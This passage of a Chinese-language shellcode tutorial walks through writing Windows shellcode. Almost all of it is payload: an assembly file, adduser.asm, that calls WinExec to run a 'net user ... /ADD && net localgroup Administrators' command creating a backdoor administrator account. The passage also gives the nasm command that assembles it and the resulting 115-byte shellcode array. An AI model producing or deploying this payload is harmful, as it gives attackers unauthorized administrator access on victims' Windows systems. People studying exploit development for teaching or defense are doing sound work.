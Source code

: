 ```
+--------------- [snip] ---------------+ 
```

汇编代码

下面的 adduser.asm 代码是从 http://www.vividmachines.com/shellcode/shellcode.html 中摘取出来的,带有略微的修改和注释

在你的本地系统上 Cygwin 的 shellcode 目录中使用如下代码创建 adduser.asm

在 shellcode 开发之后,记得用你已经使用上面的 arwin 枚举出来的地址替换掉”WinExec”和”ExitProcess”的函数地址

```
+----------------- Start adduser.asm -----------------+
;adduser.asm
[Section .text]
BITS 32
global _start
_start:
jmp short GetCommand ;jump to the location of the command string
CommandReturn: ;Define a label to call so that string address is pushed onto stack
pop ebx ;ebx now points to the string   ebx
    xor eax,eax ;empties out eax 
    push eax ;push null onto stack as empty parameter value 
    push ebx ;push the command string onto the stack
    mov ebx,0x7c8615b5 ;place address of WinExec into ebx
    call ebx ;call WinExec(path,showcode) 
xor eax,eax ;zero the register again to clear WinExec return value (return values are often returned into eax)
    push eax ;push null onto stack as empty parameter value
    mov ebx, 0x7c81ca82 ;place address of ExitProcess into ebx 
    call ebx ;call ExitProcess(0);
GetCommand: ;Define label for location of command string
    call CommandReturn ;call the return label so the return address (location of string) is pushed onto stack
    db "cmd.exe /c net user PSUser PSPasswd /ADD && net localgroup Administrators /ADD PSUser";Write the raw bytes into the shellcode that represent our string.
    db 0x00 ;Terminate our string with a null character.
+----------------- End adduser.asm -----------------+ 
```

编译汇编代码

因此我们现在已经有我们用汇编写好的 shellcode 了，我们需要编译它.这可以使用 nasm 汇编编译器来完成,在有 adduser.asm（是你的汇编源代码文件）的目录下使用如下命令,adduser.bin 是已经编译好的二进制输出文件

> nasm -f bin -o adduser.bin adduser.asm

获取 shellcode

现在我们有了一个编译好的二进制文件,可以使用 xxd 工具来为我们生成 shellcode 文件.这可以使用以下的 xxd 命令来完成,同时将会生成以下输出:

> xxd -i adduser.bin     unsigned char adduser_bin[] = {      0xeb, 0x16, 0x5b, 0x31, 0xc0, 0x50, 0x53, 0xbb, 0xb5, 0x15, 0x86, 0x7c,      0xff, 0xd3, 0x31, 0xc0, 0x50, 0xbb, 0x82, 0xca, 0x81, 0x7c, 0xff, 0xd3,      0xe8, 0xe5, 0xff, 0xff, 0xff, 0x63, 0x6d, 0x64, 0x2e, 0x65, 0x78, 0x65,      0x20, 0x2f, 0x63, 0x20, 0x6e, 0x65, 0x74, 0x20, 0x75, 0x73, 0x65, 0x72,      0x20, 0x50, 0x53, 0x55, 0x73, 0x65, 0x72, 0x20, 0x50, 0x53, 0x50, 0x61,      0x73, 0x73, 0x77, 0x64, 0x20, 0x2f, 0x41, 0x44, 0x44, 0x20, 0x26, 0x26,      0x20, 0x6e, 0x65, 0x74, 0x20, 0x6c, 0x6f, 0x63, 0x61, 0x6c, 0x67, 0x72,      0x6f, 0x75, 0x70, 0x20, 0x41, 0x64, 0x6d, 0x69, 0x6e, 0x69, 0x73, 0x74,      0x72, 0x61, 0x74, 0x6f, 0x72, 0x73, 0x20, 0x2f, 0x41, 0x44, 0x44, 0x20,      0x50, 0x53, 0x55, 0x73, 0x65, 0x72, 0x00     };     unsigned int adduser_bin_len = 115;
